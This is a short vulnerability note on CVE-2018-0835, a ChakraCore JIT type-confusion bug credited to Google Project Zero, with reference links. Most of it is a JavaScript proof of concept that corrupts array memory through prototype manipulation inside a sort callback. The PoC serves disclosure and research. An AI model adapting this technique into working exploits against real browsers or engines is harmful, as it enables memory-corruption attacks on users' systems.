 # CVE-2018-0835

- Fix: Feb 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, arr2) {
    arr2[0];

    arr[0] = 1.1;
    arr2.reverse();
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    arr.__proto__ = null;  // avoid inline caching 
    delete arr[1];  // avoid doArrayMissingValueCheckHoist

    let arr2 = [, {}];
    arr2.__proto__ = {};
    arr2.reverse = Array.prototype.reverse;

    for (let i = 0; i < 10000; i++) {
        opt(arr, arr2);
    }

    Array.prototype.sort.call(arr, () => {
        arr2.__proto__.__proto__ = arr;
    });

    opt(arr, arr2);
    print(arr[0]);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0835)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1459)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/d318150296e09a369202434fe6d6f70673422b6a)
